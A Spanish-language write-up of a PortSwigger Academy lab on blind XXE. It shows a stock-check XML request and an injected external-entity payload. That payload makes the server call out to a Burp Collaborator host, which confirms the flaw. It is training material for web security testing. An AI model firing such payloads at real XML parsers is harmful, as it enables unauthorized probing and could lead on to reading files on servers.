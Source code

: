 +++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 3"
date = "2022-01-23"
description = "Lab: Blind XXE with out-of-band interaction"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind XXE with out-of-band interaction

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

## Explotacion

Sabiendo la peticion que se hace lo primero que haremos sera explotar XXE pero del tipo blind esto a traves de declarar la DTD para luego referenciar la entidad a nuestro archivo que queremos leer que no existe pero el sistema automaticamente resolvera por medio de DNS y ahi es donde burpcollaborator entra en juego. Que es con la siguiente sintaxis. Luego se referencia en cualquiera del valor que se imprimira o recibira de la web que sera `productId` referenciando con `&xxe;`. Si no realizamos este proceso no podremos recuperar los datos. Asi que sabremos que se ejecuto cuando el sistema realice la peticion de DNS e intente conectarse. El codigo a inyectar XML sera:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://egyr8hd0zz07en40wc6bd8s46vcl0a.burpcollaborator.net/test"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
Realizamos la peticion y luego veremos la respuesta en burp collaborator

![Recuperando el archivo /etc/passwd](request2.png)
![Log de consulta DNS y HTTP](collaborator.png)

Y con esto hemos resuelto el lab.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)